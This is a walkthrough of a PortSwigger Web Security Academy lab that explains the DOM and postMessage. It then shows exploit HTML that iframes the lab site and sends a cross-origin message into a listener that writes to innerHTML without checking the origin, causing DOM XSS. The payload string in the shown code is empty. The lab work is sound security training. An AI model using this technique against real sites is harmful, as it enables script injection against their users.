




# Portswigger Web Security Academy | DOM-based Vulnerabilities Lab #1

Hi everyone! Today we’ll solve the first **DOM-based vulnerabilities** lab from the PortSwigger Web Security Academy. Let’s get started!

### What’s DOM ?

If you’ve never heard of the DOM (Document Object Model) before, it’s essentially the live, structured representation of a webpage that you see in the “Elements” tab of your browser’s developer tools.

When your browser loads a website, it first makes a GET request to fetch the initial HTML document. You can see this raw HTML by pressing CTRL+U or right-clicking and selecting “View Page Source.” However, this source code often isn’t identical to the DOM you see in the developer tools. The reason for this difference is DOM manipulation, which is typically performed by JavaScript.

Let’s take a React application as a concrete example. The initial HTML source code might look something like this:

```html
<!DOCTYPE html>
  <html lang="en">
  <head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="/assets/index-xxxx.css">
    <title>React Build Example</title>
  </head>
  <body>
    <div id="root"></div>
    <script type="module" src="/assets/index-xxxx.js"></script>
  </body>
</html>
```

As you can see, the **<body>** only contains a single empty **<div>**. But when you view the page, you see a fully interactive website with navigation bars, cards, and other elements. This happens because the JavaScript file _(/assets/index-xxxx.js)_ runs in the browser and dynamically adds, removes, and modifies elements within the DOM on the client-side. The DOM is the “living” version of the page, while the page source is the initial blueprint.

### What’s postMessage ?

Web messaging, often using the `window.postMessage()` method, allows scripts from different origins to communicate securely.

Normally, the browser’s **Same-Origin Policy (SOP)** prevents a script on `a.com` from accessing data or interacting with the DOM on `b.com`. This is a critical security feature that isolates websites from each other. While often confused with CORS (Cross-Origin Resource Sharing), CORS specifically governs cross-origin _HTTP requests_ (like `fetch` or `AJAX`), whereas the SOP is a broader policy that restricts script interactions between different origins.

The `postMessage` API provides a controlled exception to the SOP, enabling safe cross-origin communication between windows or iframes. Here’s a quick example of how it works:

**Parent page on** `**a.com**`**:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>a.com - Parent</title>
</head>
<body>
  <h1>a.com Parent Page</h1>
  <iframe id="myIframe" src="http://b.com/iframe.html" width="400" height="200"></iframe>
  <button id="sendBtn">Send Message to b.com</button>

  <script>
    const iframe = document.getElementById('myIframe');

    // Send a message to b.com iframe
    document.getElementById('sendBtn').addEventListener('click', () => {
      iframe.contentWindow.postMessage(
        { greeting: "Hello from a.com!" }, 
        "http://b.com" // target origin
      );
    });

    // Listen for messages from b.com
    window.addEventListener('message', (event) => {
      if (event.origin !== "http://b.com") return; // security check
      console.log("Received from b.com:", event.data);
    });
  </script>
</body>
</html>
```

A vulnerability arises when a page’s message event listener fails to properly validate the `origin` of an incoming message before processing its data.

### Lab Desc



The lab description mentions it uses web messaging. Let’s inspect the page’s JavaScript to see how it’s implemented.



In the website’s code, we can see an event listener for messages. It takes the data from the message and writes it directly into the `ads` div using `innerHTML`. Crucially, **the code fails to perform any origin check** on the received message. This means any website can send a message to this page, and its content will be rendered directly into the DOM, creating a clear DOM XSS vulnerability. 

PortSwigger provides an exploit server to host our malicious HTML. Here is the payload I crafted. Just replace `<YOUR-LAB-ID>` with your unique lab identifier, store it, and then view the exploit.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit Page</title>
</head>
<body>
    <iframe src="https://<YOUR-LAB-ID>.web-security-academy.net/"></iframe>
    <script>
        // When the iframe is loaded...
        window.onload = function() {
            // ...send a malicious message to it.
            const iframe = document.querySelector('iframe');
            iframe.contentWindow.postMessage(
                '', 
                'https://<YOUR-LAB-ID>.web-security-academy.net'
            );
        };
    </script>
</body>
</html>
```



When you “View exploit,” the iframe will load the vulnerable lab page. Your script then sends a `postMessage` containing an XSS payload. The vulnerable listener on the lab page will process this message without checking its origin and write the payload into its DOM, triggering the `print()` function.



Once you confirm the exploit works, just click “Deliver exploit to victim” to solve the lab.

Thanks for reading, and have a great day!